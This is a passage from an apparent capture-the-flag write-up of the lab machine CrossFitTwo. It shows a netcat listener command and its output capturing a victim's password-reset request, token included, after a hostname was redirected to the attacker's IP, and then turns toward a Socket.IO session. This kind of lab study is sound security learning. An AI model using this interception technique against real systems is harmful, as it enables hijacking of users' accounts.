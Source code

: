 Since the host points to our ip, we now capture the password reset on our ncat listener.

```php
$ sudo nc -lnvp 80
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.129.68.20.
Ncat: Connection from 10.129.68.20:38921.
GET /password-reset.php?token=58191a336ff6c02903ffede08fa83c5a713132dfaca359a8daf030a256695afa2520a3e46645f6e81c565e4f6ce2db6ed393724b5a54b2e4da05ebe830e6209d HTTP/1.1
Host: sm1l3zemployees.crossfit.htb
User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://crossfit-club.htb/
Upgrade-Insecure-Requests: 1
```

Trying the password reset this time, it tells us that password reset is disabled currently and we have to look for another way in.

[![reset_disabled](/img/crossfittwo/reset_disabled.png)](/img/crossfittwo/reset_disabled.png)

## Socket.IO

Looking closely at the request we see that it is comming from `http://crossfit-club.htb/`. Browsing there we can neither register nor create an account, but it is likely that the request getting sent to us is currently in an authenticated session.
